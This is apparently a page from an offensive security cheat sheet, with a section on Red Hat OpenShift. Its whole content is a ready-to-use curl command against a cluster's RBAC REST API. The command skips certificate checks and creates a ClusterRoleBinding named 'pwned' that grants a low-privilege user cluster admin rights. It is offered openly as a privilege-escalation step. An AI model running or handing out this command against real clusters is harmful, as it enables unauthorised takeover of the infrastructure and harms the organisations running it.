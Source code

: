 # Containerization




## Red Hat OpenShift

- [https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md](https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md)

Grant a low-priv user admin's privileges across the cluster [via REST API](https://access.redhat.com/solutions/5492301):

```json
curl -k -X POST "https://cluster.megacorp.local:8443/apis/rbac.authorization.k8s.io/v1/clusterrolebindings" \
  -H 'Authorization: Bearer <TOKEN>'  \
  -H 'Accept: application/json'       \
  -H 'Content-Type: application/json' \
  -d'
{
  "kind": "ClusterRoleBinding",
  "apiVersion": "rbac.authorization.k8s.io/v1",
  "metadata": {
    "name": "pwned",
    "creationTimestamp": null
  },
  "subjects": [
    {
      "kind": "User",
      "apiGroup": "rbac.authorization.k8s.io",
      "name": "snovvcrash@megacorp.local"
    }
  ],
  "roleRef": {
    "apiGroup": "rbac.authorization.k8s.io",
    "kind": "ClusterRole",
    "name": "admin"
  }
}'
```
